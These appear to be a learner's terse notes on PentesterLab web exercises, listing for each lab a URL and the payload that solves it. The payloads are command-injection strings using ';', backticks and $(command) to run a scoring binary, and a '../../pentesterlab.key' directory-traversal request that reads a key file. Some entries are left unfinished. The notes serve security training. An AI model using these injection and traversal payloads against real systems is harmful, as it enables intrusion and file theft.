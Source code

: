 notes
- the app is written in perl
- in order to run os cmds, run the cmd inside of backticks

## Command executions

### 01

chl:
/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509

url:
http://ptl-e178378e-fe879fa4.libcurl.st/?ip=127.0.0.1

exploit:
`;/usr/local/bin/score%20e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

notes:
- simple command injection

### 02
chl:
/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509

url:
http://ptl-4938c1df-399c9d4e.libcurl.st/

exploit:
- Just remove the `ip` value and put the chl payload in backtick: `command`

### 03
chl:
/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509

url:
http://ptl-836d9020-8f3b7b55.libcurl.st/?ip=127.0.0.1

exploit:
notes:
- Same exercise as before, but this time using `$(command)`

## Directory transversal

### 01
chl:
get /pentesterlab.key

url:
http://ptl-26af6ecb-545b350b.libcurl.st/file.php?file=hacker.png

exploit:
`http://ptl-26af6ecb-545b350b.libcurl.st/file.php?file=../../pentesterlab.key`

### 02
chl:
url:
http://ptl-0d8845c8-0b63b08f.libcurl.st/file.php?file=/var/www/hacker.png
